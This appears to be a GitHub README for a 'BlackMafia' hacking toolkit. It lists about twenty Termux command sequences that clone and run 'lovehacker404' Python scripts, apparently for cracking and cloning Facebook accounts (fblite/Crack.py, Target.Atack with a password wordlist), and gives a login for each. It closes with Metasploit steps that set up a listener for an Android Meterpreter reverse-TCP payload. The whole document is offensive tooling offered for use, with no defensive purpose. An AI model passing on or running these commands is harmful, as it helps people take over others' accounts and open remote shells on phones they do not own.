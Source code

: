# All Commands BlackMafia


⭕No 1
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/World
cd World
python2 Cloning.py

User: Black
pass: Mafia

⭕No 2
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/WorldCloning/
cd WorldCloning
python2 World.py

User Name : World
Password   : lovehacker
⭕No 3
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize

git clone https://github.com/lovehacker404/Cobra

cd Cobra
python2 Scorpion.py

User Name :  Cobra
Password: lovehacker
⭕No4
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/lov3Hak3r/
cd lov3Hak3r
python2 lovehacker.py
⭕No 5
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/BlackMafia2020/
cd BlackMafia2020
python2 lovehacker

User Name:Corona
Password  :lovehacker
⭕No 6

pkg update 
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize

git clone https://github.com/lovehacker404/CoviD-19/


cd CoviD-19
python2 Virus.py


User Name: Corona
pasword: lovehacker
⭕No 7
pkg update 
pkg upgrade
pkg install python2 
pkg install git 
pip2 install mechanize 
pip2 install requests
 
git clone https://github.com/lovehacker404/Dragon/

cd Dragon
python2 lovehacker.py

UserName:  Dragon
Password:  lovehacker
⭕No8
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/KaliIndia/
cd KaliIndia
python2 kalilinux.India.py
User Name: India
Password:lovehacker
⭕No9
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/Testing
cd Testing
python2 Project.py
User Name: Testing
pasword: lovehacker
⭕No10
git clone https://github.com/lovehacker404/Target.Atack/
cd Target.Atack
ls
cat README.md
chmod +x Target.py
ls
nano password.txt
ls
pwd
storage file location password.txt
python2 Target.py
⭕No11
apt update
apt upgrade
pkg install python
pkg install python2
pip2 install requests
pip2 install mechanize
pkg install git
git clone https://github.com/lovehacker404/fblite
cd fblite
python2 Crack.py
⭕No12
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/india/
cd india
python2 india.py


User name. KashmirBanyGa
pasword.Pakistan
⭕No 13
pkg install python2 
pip2 install mechanize 
pip2 install requests 
pkg install git
 git clone https://github.com/lovehacker404/BlackMafiaNew1.12/
ls 
cd BlackMafiaNew1.12
python2 lovehacker
user name. lovehacker
password . 03094161457
⭕No 14
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/RedMoonNew/
cd RedMoonNew
python2 lovehacker

User Name:: RedMoonNew
Password:: lovehacker
⭕No15
apt update
apt upgrade
apt install git
apt install python 
git clone https://github.com/lovehacker404/Install/
cd Install
ls 
chmod +x *
ls
python all.py
⭕No16
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/NetHunting
cd NetHunting
python2 NetHunting.py

User Name : linux
Password   : lovehacker

⭕No17


pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/WorldCloning/
cd WorldCloning
python2 World.py

User Name : World
Password   : lovehacker
⭕No18
pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/lovehacker404/BangBang/
cd BangBang
python2 Mafia
User Name: Pakistan
pasword: lovehacker

⭕No19

pkg update 
pkg upgrade
pkg install python2 
pip2 install mechanize
pkg install git 
pip2 install mechanize 
pip2 install requests 
git clone
https://github.com/lovehacker404/BlackMafiaError
cd BlackMafiaError
python2 Error.py

⭕No20
apt update
apt upgrade -y 
pkg install python -y 
git clone https://github.com/lovehacker404/Black_Mafia
cd Black_Mafia
python3 Black_Mafia.py


#Metasploit Commands
》》Requirements:-

1: Termux App (From Playstore)
2: Good Internet connection  (Must)
3: 2GB free Storage  (Must)
4: Android Version 5.0+ (Must)
5: 4GB+ RAM
6: Fast Processor

#installation

1: pkg update
2: pkg upgrade
3: pkg install unstable-repo
4: pkg install metasploit
5: msfconsole
6: use exploit/multi/handler
7: set payload android/meterpreter/reverse_tcp 
8: set lhost 
8: set lport 8080
10: exploit

